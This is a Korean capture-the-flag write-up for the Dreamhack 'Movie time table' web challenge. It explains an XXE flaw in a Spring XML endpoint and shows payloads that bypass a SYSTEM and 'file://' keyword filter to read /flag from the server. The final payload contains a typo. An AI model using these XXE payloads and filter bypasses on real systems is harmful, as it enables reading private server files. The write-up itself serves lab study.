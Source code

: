 ```yaml
---
layout: single
title: "[Dreamhack] Moive time table write-up"
date: 2025-06-19 23:06 +0900
categories: 
    - WEB-write-up
tag:
typora-root-url: ../
toc: true
toc_sticky: true
toc_label: 목차
author_profile: true
comment: true
sidebar:
    nav: "docs"
---
```


## [Dreamhack] Movie time table

### 문제 설명

- Hmm, What should I watch?

<br>

### ✏️ 풀이

문제 사이트에 접속해보면 /table 경로로 리다이렉트 되고 아래와 같이 스케줄 표가 나와있다.

<img src="/images/2025-06-18-Movie-time-table/image-20250619154341301.png" alt="image-20250619154341301" style="zoom:50%;" />

<br>

이번 문제는 spring 기반으로 만들어졌고, Controller 부분의 소스 코드를 보면 /test 경로가 하나 더 존재한다. 이는 POST 요청만 받고, `request.getInputStream()` 으로 body 값을 byte stream으로 읽어온다. 이는 `movieService.getMovies` 함수의 인자로 XML으로 처리되는 구조임을 알 수 있다.

```java
@Controller
public class MovieController {

    @Autowired
    private MovieService movieService;

    @GetMapping("/table")
    public String getMovieTable(Model model) {
        File file = new File("/app/tables/table.xml");
        model.addAttribute("movies", movieService.getMovies(file));
        return "table";
    }

    @PostMapping("/test")
    public String test(HttpServletRequest request, Model model) {
        try {
            model.addAttribute("movies", movieService.getMovies(request.getInputStream()));
        } catch (IOException e) {
            e.getStackTrace();
        }
        return "table";
    }
}
```

<br>

/test 경로로 POST 요청을 보내보면, response 처럼 아래 Title과 Showtimes 부분이 비워져서 응답된다.

![image-20250619163723815](/images/2025-06-18-Movie-time-table/image-20250619163723815.png)

<br>

소스 코드에 있는 table.xml 파일의 XML 내용을 전체 복사해서 아래 Content-Type을 application/xml으로 변경하고, 붙여넣어 요청하면 전과 동일하게 Moive Schedule에 내용이 잘 응답되어 출력되는 것을 알 수 있다.

![image-20250619164107151](/images/2025-06-18-Movie-time-table/image-20250619164107151.png)

<br>

/test 경로의 소스 코드를 더 분석해보면 사용자가 입력한 XML 데이터가 서버에서 직접 파싱하고 있기 때문에 XXE 취약점을 시도해볼 수 있겠다.

```java
    @PostMapping("/test")
    public String test(HttpServletRequest request, Model model) {
        try {
            model.addAttribute("movies", movieService.getMovies(request.getInputStream()));
        } catch (IOException e) {
            e.getStackTrace();
        }
        return "table";
    }
```

<br>

아래와 같이 DTD를 통해 XXE test를 해보면 showtimes 부분에 XXE test!가 잘 출력되는 것을 확인할 수 있다.

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [
  <!ENTITY xxe "XXE test!">
]>
<moives>
<movie>
<title>test</title>
<showtime>
&xxe;</showtime>
</movie></moives>
```

![image-20250619165146703](/images/2025-06-18-Movie-time-table/image-20250619165146703.png)

<br>

`MovieService.java` 소스 코드를 살펴보면, 아래와 같이 `SYSTEM` 과 `file://` 가 키워드로 필터링되고 있어 이를 우회해야 한다. `SYSTEM` 같은 경우 `PUBLIC` 으로 대신하여 사용할 수 있고, `file://` 경우 `file:` 만 사용하여 이 필터링을 우회할 수 있다.  

```java
if (inputStreamString.contains("SYSTEM")){
    throw new BadKeywordException("Not allowed.");
}
if(inputStreamString.contains("file://")){
    throw new BadKeywordException("Not allowed.");
}
```

<br>

아래와 같이 flag의 위치는 Dockerfile을 확인하였을 때 `/` 경로에 위치하여 있고 아래와 같이 엔티티 코드를 작성하여 DTD를 만들어주면 XXE 취약점으로 flag를 획득할 수 있다.

```
<!ENTITIY xxe PUBLIC "file" "file:/flag">
```

![image-20250619192433377](/images/2025-06-18-Movie-time-table/image-20250619192433377.png)